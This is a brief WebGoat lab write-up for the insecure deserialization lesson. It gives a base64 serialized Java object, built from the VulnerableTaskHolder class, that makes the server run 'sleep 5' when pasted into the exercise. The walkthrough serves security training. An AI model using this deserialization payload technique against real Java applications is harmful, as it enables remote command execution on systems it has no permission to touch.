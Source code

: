 # (A8) Insecure Deserialization

## Insecure Deserialization

### Lesson 5: Let’s try

- Find vurnable class in [WebGoat Repository](https://github.com/WebGoat/WebGoat/blob/main/src/main/java/org/dummy/insecure/framework/VulnerableTaskHolder.java)
- Run java project based on it `./assets/java/InsecureDeserialization`
- The output is: `rO0ABXNyADFvcmcuZHVtbXkuaW5zZWN1cmUuZnJhbWV3b3JrLlZ1bG5lcmFibGVUYXNrSG9sZGVyAAAAAAAAAAICAANMABZyZXF1ZXN0ZWRFeGVjdXRpb25UaW1ldAAZTGphdmEvdGltZS9Mb2NhbERhdGVUaW1lO0wACnRhc2tBY3Rpb250ABJMamF2YS9sYW5nL1N0cmluZztMAAh0YXNrTmFtZXEAfgACeHBzcgANamF2YS50aW1lLlNlcpVdhLobIkiyDAAAeHB3DgUAAAfnBBgTNzYHYGk0eHQAB3NsZWVwIDV0AAVzbGVlcA==`
- Paste it and wait 5 seconds till script finnish
